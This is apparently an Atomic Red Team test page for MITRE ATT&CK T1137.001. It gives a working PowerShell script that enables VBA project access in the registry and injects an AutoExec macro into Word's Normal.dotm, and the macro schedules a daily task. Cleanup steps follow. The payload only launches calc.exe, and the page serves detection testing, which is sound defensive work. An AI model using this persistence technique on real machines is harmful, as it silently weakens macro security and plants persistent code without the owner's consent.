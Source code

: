 # T1137.001 - Office Application Startup: Office Template Macros.
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/001)
<blockquote>

Adversaries may abuse Microsoft Office templates to obtain persistence on a compromised system. Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell](#atomic-test-1---injecting-a-macro-into-the-word-normaldotm-template-for-persistence-via-powershell)


<br/>

## Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell
Injects a Macro in the Word default template "Normal.dotm" and makes it execute each time that Word is opened. In this test, the Macro creates a sheduled task to open Calc.exe every evening.

**Supported Platforms:** Windows


**auto_generated_guid:** 940db09e-80b6-4dd0-8d4d-7764f89b47a8






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData = "1"
# The path where a flag text file will be created if Registry setting did not already exist or if it was set to 0
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Get the value of the Key/Value pair
$value = (Get-ItemProperty -Path $registryKey -Name $registryValue -ErrorAction SilentlyContinue).$registryValue
# Logical operation to: if the value of the key/value is 1, do nothing - 
# if the value is 0, change it to 1 and create flag1 - 
# if it doesn't exist, create the value and flag2
if ($value -eq "1") 
{
  Write-Host "The registry value '$registryValue' already exists with the required setting."
}   
  elseif ($value -eq "0") 
{
  Write-Host "The registry value was set to 0, temporarily changing to 1."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag1" > $flagPath1
} 
  else 
{
  Write-Host "The registry value '$registryValue' does not exist, temporarily creating it."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag2" > $flagPath2
}
Add-Type -AssemblyName Microsoft.Office.Interop.Word
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Create copy of orginal template for restoral
Copy-Item -Path $docPath -Destination $copyPath -Force
# VBA code to be insterted as a Macro
# Will create a scheduled task to open the Calculator at 8:04pm daily
$vbaCode = @"
  Sub AutoExec()
  Dim applicationPath As String
  Dim taskName As String
  Dim runTime As String
  Dim schTasksCmd As String
  applicationPath = "C:\Windows\System32\calc.exe"
  taskName = "OpenCalcTask"
  runTime = "20:04"
  schTasksCmd = "schtasks /create /tn """ & taskName & """ /tr """ & applicationPath & """ /sc daily /st " & runTime & " /f"
  Shell "cmd.exe /c " & schTasksCmd, vbNormalFocus
  End Sub
"@
# Create a new instance of Word.Application
$word = New-Object -ComObject Word.Application
# Keep the Word application hidden
$word.Visible = $false
# Open the document
$document = $word.Documents.Open($docPath)
# Access the VBA project of the document
$vbaProject = $document.VBProject
# Add a new module to the VBA project
$newModule = $vbaProject.VBComponents.Add(1) # 1 = vbext_ct_StdModule
# Add the VBA code to the new module
$newModule.CodeModule.AddFromString($vbaCode)
# Run the Macro
$word.run("AutoExec")
# Save and close the document
$document.SaveAs($docPath)
$document.Close()
# Quit Word
$word.Quit()
# Release COM objects
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($document) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($word) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($vbaProject) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($newModule) | Out-Null
```

#### Cleanup Commands:
```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData1 = "1"
$registryData0 = "0"
# Defines the path each flag file created depending on the original registry state
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Delete the scheduled task created by the Macro
schtasks /Delete /TN "OpenCalcTask" /F | Out-Null
#Restore the orginal template if the backup copy exists
if (Test-Path $copyPath)
{
  #Delete the injected template
  Remove-Item -Force $docPath -ErrorAction SilentlyContinue
  # Restore the original template
  Rename-Item -Force -Path $copyPath -NewName $docPath -ErrorAction SilentlyContinue
  Write-Host "The original template has been restored"
}
  else
{
  Write-Host "The original template is present"
}
#Restore the original state of the registry key
if (Test-Path $flagPath1) 
{
  # The value was originally 0, set back to 0
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData0 -PropertyType DWORD -Force | Out-Null
  Remove-Item -Force $flagPath1 -ErrorAction SilentlyContinue
  Write-Host "The original registry state has been restored"
} 
  elseif (Test-Path $flagPath2)
{
  #The value did not previously exist, delete the value
  Remove-ItemProperty -Path $registryKey -Name $registryValue | Out-Null
  Remove-Item -Force $flagPath2 -ErrorAction SilentlyContinue | Out-Null
  Write-Host "The original registry state has been restored"
}
  else 
{
  # The value was already 1, do nothing
  Write-Host "The value $registryValue already existed in $registryKey."
}
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
